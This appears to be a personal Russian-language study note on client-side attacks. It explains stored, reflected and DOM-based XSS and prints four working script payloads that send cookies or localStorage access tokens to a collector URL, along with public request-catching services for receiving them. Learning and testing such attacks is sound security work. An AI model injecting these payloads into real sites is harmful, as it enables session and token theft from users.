

# clientattacks

Created: February 15, 2025 1:46 PM

### Классификация XSS - атак

- **Stored** — когда вредоносный скрипт через пользовательский ввод сохраняется в БД приложения и потом тем или иным
способом запускается у клиента, посетившего страницу, которая генерится
на основе данных из той самой БД.
- **Reflected** — при такой уязвимости база не участвует в доставке вредоносного
скрипта жертве. Эксплойт нигде не хранится, атака обычно происходит
через URL, когда например вредоносный скрипт пробрасывается через query
параметры запроса, «отражается от сервера», где в процессе формирования
страницы скрипт добавляется в тело ответа и пользователь получает
страницу с уже встроенным в неё скриптом.
- **XSS на основе DOM** — особенность данного типа атаки в том, что она эксплуатирует уязвимости
DOM (очевидно). В отличии от двух других типов, в этом страница
на сервере не меняется. Нам приходит совершенно безопасный HTML, но JS,
который уже запустится на клиенте, отработает неправильно из‑за
внедренного в него скрипта. Другими словами, главное отличие XSS
на основе DOM в том, что эксплойт добавляется на страницу в рантайме,
в момент запуска JS и он никогда не покидает пределы браузера.

> Смысл XSS в большинстве случаев — украсть конфиденциальные данные или токены доступа.
> 

```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Для сбора запросов можно воспользоваться сервисами:

- https://public.requestbin.com/r
- https://webhook.site/
- https://beeceptor.com/
- https://requestcatcher.com/
- https://app.interactsh.com/



---

[own_xss](clientattacks/own_xss%2019b021737a898080bb66db8140d38375.md)

[XSS_stealcookie_basic_example](clientattacks/XSS_stealcookie_basic_example%2019b021737a8980af843befffcbbc657a.md)

[Dirty Laundry writeup](clientattacks/Dirty%20Laundry%20writeup%2019d021737a89803b87d2e875d54a3900.md)

[filterevasion.txt](clientattacks/filterevasion.txt)